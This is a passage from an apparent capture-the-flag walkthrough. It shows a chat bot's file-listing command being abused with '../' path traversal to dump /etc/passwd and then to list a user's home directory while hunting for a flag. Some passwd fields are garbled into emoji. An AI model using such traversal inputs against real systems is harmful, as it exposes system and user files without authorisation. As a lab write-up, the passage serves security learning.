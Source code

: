 ```sh
    cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin  
    pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin  
    usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin  
    unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin  
    rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin  
    gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin  
    chrony❌993:987::/var/lib/chrony:/sbin/nologin  
    libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin  
    saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin  
    dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin  
    radvd❌75:75:radvd user:/:/sbin/nologin  
    clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin  
    pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin  
    sssd❌983:981:User for sssd:/:/sbin/nologin  
    colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin  
    rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin  
    setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin  
    pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin  
    gdm❌42:42::/var/lib/gdm:/sbin/nologin  
    gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin  
    insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin  
    sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin  
    avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin  
    tcpdump❌72:72::/:/sbin/nologin  
    mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin  
    nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin  
    mongod❌976:974:mongod:/var/lib/mongo:/bin/false  
    rocketchat❌1001:1001::/home/rocketchat:/bin/bash  
    dwight❌1004:1004::/home/dwight:/bin/bash
    
- <!=====End of file ../../../../../../etc/passwd=====>
```

From this file we see the user `dwight`.

-----------

## Task 10

Submit the flag located in the dwight user's home directory.

Let's first list the files on the `dwight` home directory.

```sh
recyclops list ../../../../../../home/dwight

Fetching the directory listing of ../../../../../home/dwight

- total 32  
    drwx------ 11 dwight dwight 281 Feb 6 2022 .  
    drwxr-xr-x. 3 root root 20 Jan 14 2022 ..  
    lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null  
    -rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout  
    -rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile  
    -rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc  
    -rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_[restart.sh](http://restart.sh)  
    drwx------ 5 dwight dwight 56 Jul 3 2021 .config  
    -rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth  
    drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg  
    drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot  
    -rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history  
    drwx------ 3 dwight dwight 19 Jul 3 2021 .local  
    drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla  
    drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm  
    drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales  
```